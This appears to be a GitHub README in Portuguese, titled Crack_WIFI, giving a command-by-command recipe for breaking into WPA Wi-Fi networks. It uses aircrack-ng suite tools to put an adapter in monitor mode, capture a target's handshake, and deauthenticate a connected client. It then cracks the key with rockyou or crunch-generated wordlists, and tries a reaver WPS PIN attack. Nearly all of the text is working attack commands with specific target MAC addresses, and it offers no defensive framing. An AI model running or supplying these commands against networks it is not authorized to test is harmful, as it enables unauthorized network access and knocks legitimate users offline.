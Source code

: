 # Crack_WIFI
Crack_WIFI <br>
 <br>
airmon-ng check wlan0  <br>
airmon-ng check kill  <br>
airmon-ng start wlan0  <br>
airodump-ng wlan0 -a --band abg  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg wlan0  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg -w captura wlan0  <br>
aireplay-ng --deauth 0 -a E4:C0:E2:1C:6E:6B -c 28:87:BA:3A:AF:CF wlan0  <br><br>
<b> APENAS DEPOIS DE APARECER NO CAMPO NOTES EAPOL, PARA PODER PARAR A CAPTURA  </b> <br><br>
![IMAGE01](https://github.com/fernandomxm/Crack_WIFI/blob/main/image01.png) 
![IMAGE02](https://github.com/fernandomxm/Crack_WIFI/blob/main/wpa-4-way-handshake-workflow.png) <br> <br>
PODE SER UTILIZADO: wpaclean, para gerar o arquivo .cap "LIMPO", apenas com EAPOL KEY: <br>
<b>wpaclean clean.cap captura.cap</b>  <br><br>
<b> aircrack-ng -w /usr/share/wordlists/rockyou.txt -b E4:C0:E2:1C:6E:6B clean.cap  </b> <br>
<br>
Pode ser utilizada uma automatização com o crunch (On-the-Fly Wordlist Generation): <br> <br>
<b> crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha | aircrack-ng -b E4:C0:E2:1C:6E:6B -w - clean.cap </b> <br> <br>
Dessa forma, ele ira gerar uma lista gigante de de teste, sem consumir espaço em disco. <br> <br>
Para gerar a wordlist pode ser usado o: <br>
crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha -o wordlist.txt <br>
<br>
<b> apt -y install seclists </b> <br>
/usr/share/seclists/ <br>
/usr/share/wordlists/rockyou.txt <br>
Weakpass, CrackStation, Pastebin <br> <br>
O parâmetro PWR é o sinal WIFI. Quando mais perto de 0, melhor o sinal.  <br> <br> <br>
<b> FORMA VIA WPS SEM USO DE WORDLIST (Isso só funciona se o roteador estiver configurado para não usar PBC (Push Button Authentication) </b> <br>
wash --interface wlan0 <br>
reaver --bssid E4:C0:E2:1C:6E:6B  --channel 10 --interface wlan0 -vvv --no-associate <br>
aireplay-ng --fakeauth 30 -a E4:C0:E2:1C:6E:6B -h mac_wlan0 wlan0  <br> <br>
<b> Avaliar linha com: WPA PSK: </b>
